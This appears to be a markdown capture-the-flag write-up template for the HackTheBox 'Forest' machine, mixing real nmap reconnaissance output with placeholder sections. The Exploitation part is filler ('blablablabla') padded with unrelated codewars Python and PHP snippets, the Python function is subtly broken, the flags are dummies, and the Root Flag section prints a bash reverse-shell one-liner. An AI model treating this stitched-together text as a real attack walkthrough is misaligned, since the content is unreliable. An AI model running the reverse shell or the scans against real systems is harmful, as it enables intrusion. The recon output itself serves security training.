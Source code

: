 # Forest

## Reconnaissance
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
┌─[kimkhuongduy@drgon]─[~/Documents/Github/write-up/HackTheBox-Forest]
└──╼ $sudo nmap -sS -Pn -p- --min-rate 5000 -o nmap_alltcp.txt 10.10.10.161
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-24 12:24 EDT
Warning: 10.10.10.161 giving up on port because retransmission cap hit (10).
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.33s latency).
Not shown: 65212 closed tcp ports (reset), 299 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49703/tcp open  unknown
49929/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 581.13 seconds

┌─[kimkhuongduy@drgon]─[~/Documents/Github/write-up/HackTheBox-Forest]
└──╼ $sudo nmap -sC -sV -Pn -O -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703,49929 -o nmap_basic.txt 10.10.10.161
[sudo] password for kimkhuongduy: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-24 12:45 EDT
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.25s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-24 16:52:47Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
49929/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 build 10586 - 14393 (95%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows Server 2016 (93%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (93%), Microsoft Windows Vista SP1 (93%), Microsoft Windows 10 (92%), Microsoft Windows 10 1507 (92%), Microsoft Windows 10 1511 (92%), Microsoft Windows Server 2012 (92%), Microsoft Windows Server 2012 R2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2022-04-24T09:53:50-07:00
|_clock-skew: mean: 2h26m50s, deviation: 4h02m33s, median: 6m47s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-24T16:53:49
|_  start_date: 2022-04-24T16:25:29

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.26 seconds

```
Let’s make some mental notes about the scan results:
* Port 53, 88 is open now, looks like this is a Domain Controller.
* The nmap scan leaks the domain and hostname: htb.local and FOREST.htb.local. Similarly, the SMB OS nmap scan leaks the operating system: Windows Server 2016 Standard 14393.
* Port 389 is running LDAP. We’ll need to query it for any useful information. Same goes for SMB.
* Port 5985 opens, which means if I can find credentials for a user through SMB or LDAP, I might be able to get a an get a shell over WinRM.



Look  here's an image of my website, this is how you format an image.

![My Website](./image/1.png)
\ **Figure 1:** My Website


![Github](./images/github.png)
\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
